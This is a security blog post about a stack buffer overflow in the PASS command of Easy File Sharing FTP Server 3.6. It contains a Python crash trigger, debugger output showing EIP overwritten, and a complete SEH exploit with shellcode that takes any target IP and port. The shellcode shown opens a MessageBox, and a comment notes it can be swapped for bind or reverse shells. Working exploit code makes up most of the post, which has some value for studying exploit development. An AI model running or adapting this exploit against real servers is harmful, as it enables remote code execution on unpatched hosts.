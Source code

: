 ```yaml
---
layout: post
title:  "Easy File Sharing FTP Server 3.6 - Stack Buffer Overflow"
date:   2018-09-19 03:39:03 +0700
categories: [security, integer]
---
```



Vulnerability Analysis
----------------------
To trigger the vulnerability, we need to send buffer more than 3000 bytes. Vulnerable part is the **PASS** input. 
```
  reqftp += "A" * 3000
  ... code cut here ...
  s.send("PASS " + reqftp + "\r\n")
```  

Example trigger overflow:
```
  import socket, sys

  if len(sys.argv) <= 1:
    print "Usage: poc.py <target_ip> <target_port>"
    exit(1)
  ip = sys.argv[1]
  port = int(sys.argv[2])
  
  reqftp = "\x2c" + "A" * 3000
  reqftp += "\x42"*30

  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((ip, port))
  s.recv(1024)
  s.send("USER anonymous\r\n")
  s.recv(1024)
  s.send("PASS " + reqftp + "\r\n")
  s.recv(1024)
  s.close()
```

However, before sending the buffer to **PASS** input, we need to escaped a character by using **\x2c**, example below. 
Further info, https://www.cleo.com/support/byproduct/lexicom/usersguide/ftp_configuration.htm. 
```
  reqftp = "\x2c" + "A" * 3000
```
Upon overflowing, it will stop here at this function: 
```
0046C18C  /$ 56             PUSH ESI
0046C18D  |. 57             PUSH EDI
0046C18E  |. 8B7C24 0C      MOV EDI,DWORD PTR SS:[ESP+C]
0046C192  |. 8BF1           MOV ESI,ECX
0046C194  |. 8B0E           MOV ECX,DWORD PTR DS:[ESI]
0046C196  |. 8B07           MOV EAX,DWORD PTR DS:[EDI]
0046C198  |. 3BC8           CMP ECX,EAX
0046C19A  |. 74 39          JE SHORT fsfs.0046C1D5
0046C19C  |. 8379 F4 00     CMP DWORD PTR DS:[ECX-C],0
0046C1A0  |. 7D 0B          JGE SHORT fsfs.0046C1AD
0046C1A2  |. 83C1 F4        ADD ECX,-0C
0046C1A5  |. 3B0D 78A04900  CMP ECX,DWORD PTR DS:[49A078]            ;  fsfs.0049A07C
0046C1AB  |. 75 06          JNZ SHORT fsfs.0046C1B3
0046C1AD  |> 8378 F4 00     CMP DWORD PTR DS:[EAX-C],0    <--- EIP 
```
Continuing the execution by pressing **Shift + F9** (Immunity Debugger) will overwrite the EIP, e.g. 
```
Register
EAX 00000000
ECX 41414141
EDX 777771CD ntdll.777771CD
EBX 00000000
ESP 04279D18
EBP 04279D38
ESI 00000000
EDI 00000000
EIP 41414141
```

Proof-of-Concept (fully working SEH exploit)
```
  # Crafted for fun and polishing skillz!
  import sys, socket, struct

  if len(sys.argv) <= 1:
    print "\nEasy File Sharing FTP Server 3.6 Stack Overflow - @zeifan"
    print "\nUsage: poc.py <target_ip> <port>\n"
    exit()
  ip = sys.argv[1]
  port = int(sys.argv[2])  
  
  # Shellcode can be change to any (bind, reverse, etc.)
  # Hello World MessageBoxW Shellcode
  # https://www.exploit-db.com/exploits/37758/
  shellcode = ("\x33\xc9\x64\x8b\x49\x30\x8b\x49\x0c\x8b" +
    "\x49\x1c\x8b\x59\x08\x8b\x41\x20\x8b\x09" +
    "\x80\x78\x0c\x33\x75\xf2\x8b\xeb\x03\x6d" +
    "\x3c\x8b\x6d\x78\x03\xeb\x8b\x45\x20\x03" +
    "\xc3\x33\xd2\x8b\x34\x90\x03\xf3\x42\x81" +
    "\x3e\x47\x65\x74\x50\x75\xf2\x81\x7e\x04" +
    "\x72\x6f\x63\x41\x75\xe9\x8b\x75\x24\x03" +
    "\xf3\x66\x8b\x14\x56\x8b\x75\x1c\x03\xf3" +
    "\x8b\x74\x96\xfc\x03\xf3\x33\xff\x57\x68" +
    "\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68" +
    "\x4c\x6f\x61\x64\x54\x53\xff\xd6\x33\xc9" +
    "\x57\x66\xb9\x33\x32\x51\x68\x75\x73\x65" +
    "\x72\x54\xff\xd0\x57\x68\x6f\x78\x41\x01" +
    "\xfe\x4c\x24\x03\x68\x61\x67\x65\x42\x68" +
    "\x4d\x65\x73\x73\x54\x50\xff\xd6\x57\x68" +
    "\x72\x6c\x64\x21\x68\x6f\x20\x57\x6f\x68" +
    "\x48\x65\x6c\x6c\x8b\xcc\x57\x57\x51\x57" +
    "\xff\xd0\x57\x68\x65\x73\x73\x01\xfe\x4c" +
    "\x24\x03\x68\x50\x72\x6f\x63\x68\x45\x78" +
    "\x69\x74\x54\x53\xff\xd6\x57\xff\xd0"
  )

  # Escaped character + Buffer 
  reqftp = "\x2c" + "\x41" * 2559

  # 16 bytes SEH
  reqftp += "\xeb\x10\x90\x90"  
  
  # 0x100182d3 : {pivot 8 / 0x08}
  # POP EBP 
  # MOV EAX,1 
  # POP EBX 
  # RETN
  reqftp += struct.pack("<I", 0x100182d3) 
  reqftp += "\x42" * 100
  reqftp += shellcode

  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((ip, port))
  print "\nMessageBox will pop up!"
  s.recv(1024)
  s.send("USER anonymous\r\n")
  s.recv(1024)
  s.send("PASS " + reqftp + "\r\n")
  s.recv(1024)
  s.close()
```
  
**This type of exploit can be crafted within hour**
